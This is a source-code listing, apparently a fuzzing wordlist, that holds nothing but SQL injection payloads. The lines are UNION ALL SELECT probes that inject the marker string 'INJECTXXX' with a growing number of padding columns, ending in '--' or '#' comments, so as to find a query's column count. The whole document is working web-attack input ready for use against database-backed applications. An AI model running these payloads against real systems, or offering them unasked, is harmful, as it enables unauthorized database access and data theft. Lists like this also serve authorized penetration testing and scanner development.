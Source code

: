 ```
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
```

